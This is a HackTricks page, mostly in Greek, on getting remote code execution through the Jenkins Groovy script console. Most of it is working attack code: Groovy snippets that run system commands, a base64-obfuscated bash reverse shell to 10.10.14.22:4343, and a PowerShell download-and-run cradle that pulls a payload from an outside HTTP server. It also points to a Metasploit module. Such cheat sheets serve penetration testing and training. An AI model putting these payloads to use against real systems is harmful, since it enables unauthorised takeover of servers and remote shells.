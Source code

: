 # Jenkins RCE with Groovy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Jenkins RCE with Groovy Script

Αυτό είναι λιγότερο θορυβώδες από το να δημιουργήσεις ένα νέο έργο στο Jenkins

1. Πήγαινε στο _path\_jenkins/script_
2. Μέσα στο πλαίσιο κειμένου εισάγεις το σενάριο
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
Μπορείτε να εκτελέσετε μια εντολή χρησιμοποιώντας: `cmd.exe /c dir`

Στο **linux** μπορείτε να κάνετε: **`"ls /".execute().text`**

Αν χρειαστεί να χρησιμοποιήσετε _εισαγωγικά_ και _μονά εισαγωγικά_ μέσα στο κείμενο. Μπορείτε να χρησιμοποιήσετε _"""PAYLOAD"""_ (τριπλά διπλά εισαγωγικά) για να εκτελέσετε το payload.

**Ένα άλλο χρήσιμο groovy script** είναι (αντικαταστήστε \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Αντίστροφη θήκη σε linux
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Reverse shell in windows

Μπορείτε να προετοιμάσετε έναν HTTP server με ένα PS reverse shell και να χρησιμοποιήσετε το Jeking για να το κατεβάσετε και να το εκτελέσετε:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

Μπορείτε να αυτοματοποιήσετε αυτή τη διαδικασία με [**αυτό το σενάριο**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py).

Μπορείτε να χρησιμοποιήσετε το MSF για να αποκτήσετε ένα reverse shell:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
